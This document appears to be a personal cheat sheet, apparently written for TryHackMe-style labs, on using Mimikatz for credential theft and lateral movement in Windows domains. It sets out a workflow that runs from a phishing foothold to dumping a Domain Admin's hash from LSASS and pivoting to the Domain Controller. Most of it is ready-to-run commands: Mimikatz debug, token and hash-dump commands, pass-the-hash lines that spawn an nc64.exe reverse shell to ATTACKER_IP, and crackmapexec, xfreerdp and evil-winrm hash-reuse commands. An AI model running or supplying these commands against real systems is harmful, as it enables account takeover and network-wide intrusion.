

# Mimikatz

**Why Mimikatz is the "Cheat Code" for Lateral Movement.**

 ****Here is the reality: Windows is designed to make life easy for users. When someone logs into a machine, Windows keeps their credentials in a process called LSASS (Local Security Authority Subsystem Service) so they don't have to re-type their password every five seconds.

**The 3 Ways It Actually Helps You Move**
1. **Pass-the-Hash (PtH):** This is the big one. You don't actually need to know Bob's password. If you have his NTLM hash (which Mimikatz dumps easily), you can just tell Windows, "Hey, I'm Bob, here's my hash," and it lets you in.

**Cleartext Passwords:** On older systems (or if WDigest is enabled), Mimikatz can literally just print the user's password in plain text. You don't even have to crack it. You just read it and log in elsewhere.

**Pass-the-Ticket (PtT):** If the environment is strictly Kerberos, Mimikatz can grab "tickets" from memory. You can then inject a ticket into your own session and suddenly you're authenticated as a high-privileged user on a different server.

**The Workflow in the Field**It usually looks like this:

It usually looks like this:

**Step 1:** You get a shell on a random workstation (maybe via phishing).

**Step 2:** You realize a Domain Admin logged into this machine earlier this morning.

**Step 3:** You run Mimikatz to scrape their hash from memory.

**Step 4:** You use that hash to jump straight to the Domain Controller or move laterally.

Step 2——Enable Debug Privilege

privilege::debug

Step 3——Elevate to System Token

token::elevate

Step 4A——Dump Local SAM Hashes

lsadump::sam

Srep 4B——Dump LSASS Memory(Best Method)

sekurlsa::msv

Performing Pass-The-Hash

Step 5—-Revert Token

token::revert

Step 6 ——Inject Hash and Spawn Shell

`mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /rc4:96ea24eff4dff1fbe13818fbf12ea7d8 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"`

**If we have the RC4 hash:**

```bash
mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /rc4:96ea24eff4dff1fbe13818fbf12ea7d8 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"
```

**If we have the AES128 hash:**

```bash
mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes128:b65ea8151f13a31d01377f5934bf3883 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"
```

**If we have the AES256 hash:**

```bash
mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes256:b54259bbff03af8d37a138c375e29254a2ca0649337cc4c73addcd696b4cdb65 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"
```



CHECK Hash where to use

crackmapexec smb 10.200.74.0/24 -u Administrator -H 0b2571be7e75e3dbd169ca5352a2dad7 --local-auth

crackmapexec smb 10.200.74.0/24 -u Administrator -H 0b2571be7e75e3dbd169ca5352a2dad7

RDP Check with hashes

xfreerdp3 /v:10.200.74.249 /u:Administrator /pth:0b2571be7e75e3dbd169ca5352a2dad7 /cert:ignore /sec:nla +restricted-admin

Evil-winrm log in

evil-winrm -i -u -H “”